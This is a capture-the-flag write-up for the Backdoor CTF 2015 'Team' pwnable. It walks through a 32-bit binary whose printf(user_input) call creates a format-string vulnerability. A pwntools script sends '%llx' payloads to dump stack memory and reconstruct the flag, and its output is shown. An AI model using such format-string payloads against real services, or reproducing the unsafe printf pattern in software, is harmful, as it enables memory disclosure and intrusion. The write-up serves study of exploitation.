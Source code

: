 # Backdoor CTF 2015: Team

**Category:** Pwnable
**Points:** 600
**Description:** 

> There is a wierd kind of authentication service running: nc hack.bckdr.in 8004.
> 
> The binary can be found [here](challenge/team).
> The vampire says that there is no need for bruteforce.

## Write-up

We first check the binary:

>```bash
>file team
team: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x6d83b63fd19b24c9023ec3e7f43f563da4dcd729, stripped
>```

Fire up gdb (with [PEDA](https://github.com/longld/peda)):

>```bash
> gdb-peda$ checksec
> CANARY    : ENABLED
> FORTIFY   : disabled
> NX        : ENABLED
> PIE       : disabled
> RELRO     : Partial
>```

Looks like we're dealing with a 32-bit ELF executable with non-exec stack and stack canary. Let's decompile it (function names added for clarity):

>```c
>int entryroutine()
>{
>  const char *v0; // ST18_4@1
>  const char *v1; // ST1C_4@1
>
>  v0 = (const char *)malloc(0xC8u);
>  v1 = (const char *)malloc(0x64u);
>  printf("Enter teamname: ");
>  fflush(stdout);
>  __isoc99_scanf("%200s", v0);
>  printf("Enter flag: ");
>  fflush(stdout);
>  __isoc99_scanf("%100s", v1);
>  sleep(2u);
>  checkflag(v0, v1);
>  free((void *)v0);
>  free((void *)v1);
>  return 0;
>}
>
>signed int __cdecl checkflag(const char *a1, const char *a2)
>{
>  signed int result; // eax@2
>  int v3; // edx@7
>  FILE *stream; // [sp+24h] [bp-74h]@1
>  char s; // [sp+28h] [bp-70h]@3
>  int v6; // [sp+8Ch] [bp-Ch]@1
>
>  v6 = *MK_FP(__GS__, 20);
>  stream = fopen("flag.txt", "r");
>  if ( stream )
>  {
>    fgets(&s, 100, stream);
>    printf(a1);
>    if ( !strcmp(&s, a2) )
>      puts(" : correct flag!");
>    else
>      puts(" : incorrect flag. Try again.");
>    fclose(stream);
>    result = 0;
>  }
>  else
>  {
>    result = 1;
>  }
>  v3 = *MK_FP(__GS__, 20) ^ v6;
>  return result;
>}
>```

As we can see the application first asks for our team name and the flag, sleeps for 2 seconds and calls checkflag(teamname, flag).
The checkflag routine is a simple routine which opens the flag file, reads the flag into variable s (which is on the stack), compares it to the flag we supplied and tells us if it was correct. The vulnerability is fairly obvious in the following line:

>```c
>    printf(a1);
>```

Calling printf with a user-supplied format specifier leads to a trivial format-string exploit. In this case we don't even have to pop a shell since we can simply read the flag from the stack. We can do this by [dumping](solution/teamsploit.py) the first 30 8-byte words (using the %llx format specifier) from the stack:

>```python
>#!/usr/bin/python
>#
># Backdoor CTF 2015
># TEAM (PWN/600)
>#
># @a: Smoke Leet Everyday
># @u: https://github.com/smokeleeteveryday
>#
>
>from pwn import *
>from struct import pack, unpack
>
># Split into blocks
>def split_blocks(b, block_size):
>  return [b[i:i+block_size] for i in range(0, len(b), block_size)]
>
># Reverse order (take block size into account)
>def rev(b, block_size):
>  blocks = split_blocks(b, block_size)
>  return "".join(blocks[::-1])
>
>host = 'hack.bckdr.in'
>h = remote(host, 8004, timeout = None)
>print h.recvuntil('Enter teamname: ')
># Send format string exploit (dump 30 8-byte words from stack)
>h.send("%llx." * 30 + "\n")
>print h.recvuntil('Enter flag: ')
>h.send("blaat\n")
>msg = h.recvall()
>print msg
>h.close()
>
># Split stack words
>msg = msg.split(".")
>
># Chop flag into correct representation
>blocks = [msg[4][0:8]]
>
>for part in msg[5: 12]:
>  blocks.append(part)
>
>blocks.append(msg[12][7:])
>
>hsh = ""
>for block in blocks:
>  hsh += rev(block, 2)
>
>print "[+]Got flag: [%s]" % hsh
>```

When dumping the stack, you can see several words (seperated by periods), some of which consist of hexadecimal representation of ascii characters only. This is where the flag is located. It's not neatly aligned with the way we dumped it but a little bit of (dirty) parsing (see above) can fix that (keep in mind the dumped stack words are in reverse order and every 2 characters of the hexadecimal representation of the flag represent a single flag character). This gives us the following output:

>```bash
>$ python teamsploit.py 
>[+] Opening connection to hack.bckdr.in on port 8004: Done
>Enter teamname: 
>Enter flag: 
>[+] Recieving all data: Done (451B)
>[*] Closed connection to hack.bckdr.in port 8004
>942414000000064.f76f8c20.94240d800000001.f772255c09424008.3566336409424140.3765313964363031.3835656232346137.6138356463613530.3131646164386231.3563636638376661.6664326331383366.3533353936333635.804830062663137.1.1.ffb4b43800000000.1f7715500.7d80e100.ffb4b43800000000.94240080804880c.ffb4b4dc094240d8.f76f83c4f758410d.9424008f7722000.8048830094240d8.0.1f756aa63.ffb4b4dcffb4b4d4.1f770fcea.ffb4b474ffb4b4d4.80482e00804a038. : incorrect flag. Try again.
>
>[+]Got flag: [{flag removed upon request of backdoorCTF admins ;)}]
>```
